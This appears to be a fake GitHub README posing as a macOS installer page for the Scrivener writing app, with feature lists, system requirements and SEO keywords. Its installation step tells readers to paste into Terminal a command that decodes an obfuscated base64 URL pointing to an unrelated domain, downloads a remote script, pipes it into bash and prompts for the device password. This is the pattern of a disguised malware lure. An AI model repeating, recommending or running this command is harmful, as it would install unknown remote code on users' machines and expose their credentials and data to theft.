 # 📚 Scrivener for macOS

## About
Scrivener for macOS is an all-in-one writing studio that helps authors, screenwriters, and researchers organize complex projects. With powerful structuring tools, research management, and flexible export options, it’s the ultimate platform for long-form writing.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://www.literatureandlatte.com/wp-content/uploads/2023/09/1-four-screens.jpg)  
![Overview 2](https://www.literatureandlatte.com/wp-content/uploads/2017/11/LaptopScriv.jpg)

## Key Features
- 📝 Organize chapters, scenes, and sections  
- 📂 Manage research, notes, and references  
- 🎯 Focus mode for distraction-free writing  
- 📑 Corkboard and outline views  
- 📤 Export to multiple publishing formats  
- 🖥️ Optimized for macOS workflow

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 200 MB of available disk space  
- Internet connection for activation and updates

## SEO Keywords
Scrivener macOS · long-form writing software · novel writing Mac · screenplay writing app · research organization tool Mac · manuscript editor macOS · author productivity software
